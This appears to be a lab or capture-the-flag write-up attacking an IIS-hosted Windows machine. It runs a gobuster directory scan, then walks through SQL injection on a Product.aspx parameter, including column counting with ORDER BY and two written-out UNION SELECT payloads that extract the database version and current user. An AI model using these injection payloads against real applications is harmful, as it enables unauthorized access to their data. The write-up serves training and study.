 We don’t potential usernames or password candidates.

### Port 5985 (WinRM)

…

## Web

### Port 80

Version - Microsoft IIS httpd 10.0

Visiting the website we see:

![image.png](image%201.png)

Running gobuster:

```bash
gobuster dir -u http://$IP/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 30 -b 403,404,400
```

![image.png](image%202.png)

`Remote` directory is for remote access using powershell .

### Port 443

The same as port 80 but with https.

## Exploitation

I saw `.aspx` application tries to access data, that potentially indicates SQL injection possibility, that’s why I appended `'` to the accessed value:

![image.png](image%203.png)

It returned a `SQL` error, then I tried to identify how many columns are present in the database by using `ORDER BY .`

And finally 26 returned an error that means there are 25 columns.

```bash
http://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=4 union select null,@@version,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null
```

Returned:

![image.png](image%204.png)

```bash
http://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=4 union select null,current_user,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null
```
